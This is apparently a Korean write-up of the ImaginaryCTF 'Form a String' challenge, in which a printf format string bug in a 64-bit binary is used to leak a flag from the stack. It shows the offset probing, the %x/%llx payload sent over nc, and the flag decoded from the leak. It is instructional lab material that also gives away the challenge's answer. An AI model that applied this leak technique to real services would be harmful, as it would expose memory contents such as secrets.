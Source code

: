 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-16-51-47.png)

첨부파일

[Form_a_String.rar](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round9/Form%20a%20String/file/Form_a_String.rar)

# **Write-Up**

압축을 해제하면 pwn이라는 바이너리가 있고, IDA를 사용하여 수도코드로 바꾸면 다음과 같다.

![](images/2022-05-18-16-56-21.png)

22번 줄에서 printf에 인자로 변수를 그대로 넣었는데, 여기서 FSB(Format String Bug)가 터진다.

![](images/2022-05-18-16-56-30.png)

IDA의 RemoteDebugger를 사용하여 while문으로 들어가서 fgets까지 실행한다.

```sh
=========================================================
[16] Accepting connection from 192.168.10.127...
Show us what you can do!
```

64bit 바이너리이기 때문에 %llx를 적당히 넣고 printf까지 진행해보면 "A"*8을 제외하고 10번째 부터 "41"*8이 시작된다.

```sh
AAAAAAAA,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx
AAAAAAAA,5600f67e4491,0,0,7ffe8a23d7e0,0,7ffe8a23d968,100000000,0,5600f67e32a0,4141414141414141,6c252c786c6c252c
```

즉, while문에서 inpuf_buf의 시작점(rbp-90)이 10번째부터이다.

![](images/2022-05-18-16-57-06.png)

그러면 이제 flag의 시작점(rbp-50)까지의 차이(0x90 - 0x50)는 64byte임을 알 수 있다.

![](images/2022-05-18-16-57-15.png)

즉, 18번째 포맷부터는 flag값이 나온다. (9번 + 8번(input_buf크기인 64byte) + 1)

다만 input_buf가 받아들이는 크기는 64글자(=0x40)이므로 llx를 x로 바꾸고 쉼표도 최대한 줄여서 다음과 같이 입력한다. (%x는 17개)

```cmd
C:\nc\>nc64.exe 192.168.10.211 3000
Show us what you can do!
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x,%llx,%llx,%llx,%llx,%llx
f67e44910f67e44cc8a23d7e008a23d96800f67e32a078257825782578257825782578257825252c7825786c6c256c252c78a786c6c,7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e
```

* binary를 소켓으로 바인딩 : * socat TCP-LISTEN:3000,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pwn"

flag값은 7230667b66746369,317237735f74346d,5f3372345f73676e,6972705f68373177,a7d66746e로 cyberchef에서 hex디코딩을 통해 값을 확인해 본다.
> [CyberChef](https://gchq.github.io/CyberChef)

![](images/2022-05-18-16-59-23.png)

뒤가 깨져서 나오는데 마지막 값의 자리수가 모자라서이다. a는 엔터 값인 0a로 바꿔서 값을 확인한다.

![](images/2022-05-18-17-02-04.png)

64bit이므로 8byte씩 뒤에서 부터 출력되기 때문에(stack에서 값을 가져오기 때문에) 8글자씩 잘라 거꾸로 뒤집으면 flag를 획득할 수 있다.

```python
[In]
print(''.join(reversed('r0f{ftci')),end='')
print(''.join(reversed('1r7s_t4m')),end='')
print(''.join(reversed('_3r4_sgn')),end='')
print(''.join(reversed('irp_h71w')),end='')
print(''.join(reversed('\n}ftn')))

[Out]
ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}
```

# **FLAG**

**ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}**